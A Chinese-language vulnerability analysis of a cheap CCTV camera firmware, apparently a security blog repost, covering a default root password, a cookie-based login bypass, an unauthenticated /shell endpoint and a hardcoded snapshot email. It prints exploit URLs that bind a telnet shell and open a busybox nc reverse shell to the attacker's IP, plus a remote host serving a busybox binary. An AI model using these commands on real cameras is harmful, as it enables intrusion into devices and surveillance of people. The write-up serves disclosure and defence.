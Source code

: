 # 某CCTV摄像头漏洞分析

0x00 漏洞分析
=========

* * *

今天看老外分析了一款廉价CCTV摄像头的文章，地址在[https://www.pentestpartners.com/blog/pwning-cctv-cameras/](https://www.pentestpartners.com/blog/pwning-cctv-cameras/)，摄像头的amazon购买地址是[http://www.amazon.co.uk/dp/B0162AQCO4](http://www.amazon.co.uk/dp/B0162AQCO4)，老外曝光的漏洞主要有四个，分别是默认密码，web登陆认证绕过，内建的webshell，以及发送摄像图片到硬编码的邮箱地址，老外的文章经过我的测试，有错误和不全的地方，我都一一补充在下面了 ：）

### 1. 默认密码

WEB默认登陆名是admin，密码是空。

另外经过破解passwd，发现root的默认密码是"juantech"，可以通过telnet登录直接获取cmdshell，如图1:

![enter image description here](http://drops.javaweb.org/uploads/images/eb420eb943acfbe8be0125d9f77a55bedaa833cd.jpg)

### 2. WEB认证绕过

当你第一次访问的时候，index.html会要求你输入用户名和密码，输入正确，则跳转到view2.html。如果你直接访问view2.html，会被重定向到index.html，要求你输入帐户信息。下载固件用binwalk解压，如图2：

![enter image description here](http://drops.javaweb.org/uploads/images/baefef2743a4b6d333a569ce000fe139af8be2fa.jpg)

查看view2.js，发现以下内容：

```
$(document).ready(function(){
    dvr_camcnt = Cookies.get(“dvr_camcnt");
    dvr_usr = Cookies.get("dvr_usr");
    dvr_pwd = Cookies.get("dvr_pwd");
    if(dvr_camcnt == null || dvr_usr == null || dvr_pwd == null)
    {
        location.href = "/index.html";
    }

```

可以看到，如果`dvr_camcnt,dvr_usr,dvr_pwd`这3个值为空，就会跳转到index.html，所以我们只要将`dvr_camcnt,dvr_usr,dvr_pwd`设置不为空就可以了，通过查看view2.js源码可以知道,`dvr_camcnt`其实是控制频道(chanel)的，如下：

```
function goto_open_all()
 80 {   
 81     if(dvr_viewer && dvr_viewer.ConnectRTMP)
 82     {
 83         dvr_viewer.SetPlayerNum(dvr_camcnt);
 84 //      switch(dvr_camcnt)
 85 //      {
 86 //      case "4":
 87 //          dvr_viewer.flSetViewDiv(4);
 88 //          break;
 89 //      case "8":
 90 //          dvr_viewer.flSetViewDiv(9);
 91 //          break;
 92 //      case "16":
 93 //          dvr_viewer.flSetViewDiv(16);
 94 //          break;
 95 //      case "24":
 96 //          dvr_viewer.flSetViewDiv(25);
 97 //          break;
 98 //      }
 99         open_all(dvr_camcnt);
100     }
101     else
102     {
103         dvr_viewer = $("#viewer")[0];
104         setTimeout(goto_open_all, 1000);
105     }
106 }   

```

原文说dvr_camcnt只能设置2，4，8，24这几个值。实际测试，输入其他值都可以的。绕过登陆认证的证明如图3

![enter image description here](http://drops.javaweb.org/uploads/images/879e0cba40832f23301599c84f39e105b3e81151.jpg)

### 3.内建的webshell

通过查看解压后的固件目录，我们发现dvr_app包含了web服务，使用strings查看`dvr_app`二进制，可以看到`/moo,/whoami,/shell,/snapshot`等字符，尝试访问，发现没有任何验证就可以访问这些功能，如图4，

![enter image description here](http://drops.javaweb.org/uploads/images/a21a81561479ab14799d64a327beb28671a31026.jpg)

访问`/shell`的时候，卡住了，把`dvr_app`拖入ida，查看shell功能相应的处理逻辑，因为是固件是ARM小端的架构，可以直接在IDA里F5看伪代码。如图5

![enter image description here](http://drops.javaweb.org/uploads/images/ddb835b8abea7d949fdb7a9398deb7893ab1b0ac.jpg)

这里利用有2个方式，一个是直接telnetd绑定/bin/sh到任意端口，然后telnet连接过去，不需要认证就可以telnet登录，这个利用方式在你不知道固件本身TELNET的账户信息的时候，是个很常见的利用方法。命令如下：

```
http://目标ip/shell?/usr/sbin/telnetd -l/bin/sh -p 25

```

但是实际测试还要考虑防火墙/NAT的问题，好多设备仅仅映射80出来，你开通的其他端口，虽然设备打开了，但是你连接不上去。如图6.

![enter image description here](http://drops.javaweb.org/uploads/images/2bd2664df58e91f790c357db9d6482e2b5e32032.jpg)

这时候你可以用nc反弹shell出来，估计是因为固件版本不一样，我测试的目标busybox里是自带nc的，所以通过执行

```
http://目标ip/shell?/bin/busybox nc 我的IP 53 -e /bin/sh

```

就可以获取到反弹的cmdshell了，如图7

![enter image description here](http://drops.javaweb.org/uploads/images/81f574d4e56c9a1ba71853d2f86ef2e49150ed58.jpg)

文章说他的固件的busybox没有带nc，所以他静态编译了一个busybox，然后通过wget下载到一个可写的目录，然后赋予busybox可执行权限，最后运行nc命令。他已经提供了编译好的busybox，可以通过`http://212.111.43.161/busybox`来下载。

### 4.发送摄像图片到硬编码的邮箱地址

通过strings查看dvr_app二进制,还发现了另一处可疑的字符串

.rodata:002260E0 0000005A Ctarget=lawishere@yeah.net&subject=Who are you?&content=%s&snapshot=yes&vin=0&size=320x180

通过在github上搜索“lawishere@yeah.net",找到了https://github.com/simonjiuan/ipc/blob/master/src/cgi_misc.c，通过源码可以看到

```
#define DEFAULT_USER_EMAIL "dvruser@esee100.com"
#define DEFAULT_USER_PASSWORD "dvrhtml"
#define DEFAULT_SMTP_SERVER "mail.esee100.com"
#define DEAFULT_TARGE_EMAIL "lawishere@yeah.net"

```

@hdmoore在twitter也提到这个中国邮箱，所以我略微的看了看。目前mail.esee100.com已经不解析了，但是esee100.com的CNMAE解析到了www.dvrskype.com。通过查询www.dvrskype.com的域名信息，可以看到域名的拥有者是caostorm@163.com，如图8，注意这里ORG是"广州市九安光电技术有限公司",而github的上传者也是九安光电技术的技术人员。通过图9可以看到，他会把/whoami的返回信息和CCTV摄像头启动时的拍摄的照片发到lawishere@yeah.net，当然现在这个SMTP发送服务器已经不存在了，也有可能是当时开发留下的测试的功能。

0x01 全球统计
=========

* * *

因为是运行的自定义的web服务器，HTTP服务器头包含明显的“JAWS/1.0”特征，最近sans比较关注国内的漏洞扫描（https://isc.sans.edu/forums/diary/Scanning+for+Fortinet+ssh+backdoor/20635/），所以我就直接用shodan的结果了。如图10

![enter image description here](http://drops.javaweb.org/uploads/images/cd90a2430208049c79afd528302d4e685a88a09f.jpg)

可以看到这款廉价的CCTV摄像头对公网开放的全球大概有42545台，最常用的端口是80/8080，用的最多的国家是土耳其，印度，越南。 ：）

目前应该也有对这个CCTV摄像头的自动化恶意利用了，通过查看几个，发现几台设备的进程里都包含

```
 1560 root       620 S    ./dropbear -p 15081 -r /tmp/dropbear/dropbear_rsa_ho

```

以及wget远程下载恶意利用文件。

0x02 漏洞防护
=========

* * *

目前官方还没有补丁固件，建议不要对外开放80/23等管理端口。

0x03 感谢的人
=========

* * *

感谢低调的张老师教我逆向知识，张老师的好和善是对我问的幼稚问题都耐心的回答，从来没烦过。